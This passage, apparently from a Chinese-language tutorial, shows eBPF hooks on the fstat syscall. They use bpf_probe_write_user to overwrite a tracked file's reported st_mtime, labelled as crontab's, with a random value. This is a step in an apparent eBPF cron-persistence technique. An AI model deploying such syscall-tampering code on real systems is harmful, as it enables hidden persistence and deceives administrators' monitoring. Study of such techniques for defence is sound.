 ok，现在我们已经有了对应的 fd 了。

 

**fstat**

```
int fstat(int fd, struct stat *statbuf);

```

```
// int fstat(int fd, struct stat *statbuf);
static __inline int handle_enter_fstat(struct bpf_raw_tracepoint_args *ctx){
 
 
  struct pt_regs *regs;
    char buf[0x40];
    char *pathname ;
  int fd=0;
 
    regs = (struct pt_regs *)(ctx->args[0]);
  fd = PT_REGS_PARM1_CORE(regs);
  if(fd != open_fd){
    return 0;
  }
 
  bpf_printk("[sys_enter::handle_enter_fstat] We Got fd: %d\n",fd);
  statbuf_fstat_ptr = (struct stat *)PT_REGS_PARM2_CORE(regs);
  return 0;
}

```

```
static __inline int handle_exit_fstat(){
 
  if(open_fd == 0){
    return 0;
  }
  if(statbuf_fstat_ptr == 0){
    return 0;
  }
 
  __kernel_ulong_t crontab_st_mtime = bpf_get_prandom_u32() & 0xffff;
 
  // bpf_printk("[sys_exit::handle_exit_fstat]: HIT!\n");
 
 
  bpf_probe_write_user(&statbuf_fstat_ptr->st_mtime , &crontab_st_mtime ,sizeof(crontab_st_mtime));
 
  bpf_printk("[sys_exit::handle_exit_fstat()]  Modify DONE\n");
 
 
  //open_fd = 0;
 
  return 0;
}

```
